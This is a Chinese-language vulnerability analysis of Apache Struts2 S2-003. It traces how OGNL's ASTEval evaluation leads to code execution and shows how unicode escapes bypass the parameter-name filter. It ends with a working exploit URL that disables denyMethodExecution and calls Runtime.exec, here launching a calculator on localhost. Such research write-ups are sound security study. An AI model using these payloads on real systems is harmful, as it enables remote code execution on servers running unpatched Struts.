# S2-003漏洞分析

文章里面多了很多我自己的见解没有单纯去copy

## 注意

强烈建议将Tomcat使用Tomcat7以下，这里我用的Tomcat6.0.20，高版本出现特殊符号会报错(4XX)

## 漏洞影响版本

Struts 2.0.0 - Struts 2.1.8.1

## 分析

漏洞触发形式为 `(one)(two)` 表达形式，属于 `ASTEval` 类型，一些详情可以看https://xz.aliyun.com/t/111，属于是不想看了

我们可以看看`ognl.ASTEval#getValueBody`的执行流程



1. 取 one的内容，调用 `getValue()` 方法计算后赋值到 expr 
2. 取 two的内容，赋值给 source
3. 判断 expr 是否为 node 类型，是的话直接转型，否则调用 `Ognl.parseExpression()` 进行解析强转为 node 类型
4. 将 source 放入 root 中并调用 node 的 `setValue()` 方法进行解析

同时如果one 的结果是一个 AST，OGNL 将简单的执行解释它，否则 OGNL 将这个对象转换为字符串形式然后解析这个字符串

学习su18师傅的比如这样

```java
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```

但是同样的payload放在`setValue`就不行了



这里不能触发原因是这里，而我们之前的`ognl.ASTChain#getValueBody`是`super.children.length - 1`



如果我这里手动改为-1的值，确实可以成功触发的



回到这个话题，目的是通过这个setValue去解决，可是为什么报错主要是`ASTMethod`没有`setValueBody`导致的



但是我们仔细看，在之前`ognl.ASTEval#setValueBody`，可以在这里触发`getValue`

我们之前的payload

```java
Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')");
```

到了这里就是



那如果我们能到这里构造就触发那不就行了吗



可以看到如果在不是常量就会去调用`getValueBody`



可以

```java
Object o = Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```

或者

```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')('y4tacker')");
```

都可以成功弹出计算器这时候高高兴兴拿着payload去打



这里首先遇到的第一个坑是`acceptableName`其实是一个过滤

```java
    protected boolean acceptableName(String name) {
        return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1 && !this.isExcluded(name);
    }
```

不能出现这些字符，绕过方式很简单，这里在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制

因此payload改为

```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'open\u0020-a\u0020Calculator.app')('y4tacker')
```

这里调用静态函数受`xwork.MethodAccessor.denyMethodExecution`属性影响



在这之前就调用了，所以要想执行命令首先得要把这个属性设置为false



得到最终payload了

```java
http://127.0.0.1:8080/login.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

这里你可能会好奇为什么我的payload这个`@`符号明明没有在被过滤但是也用了`unicode`编码，这里的迭代器是来源于`TreeMap`是有序的



## 参考文章

https://xz.aliyun.com/t/111

https://su18.org/post/struts2-1/#s2-003
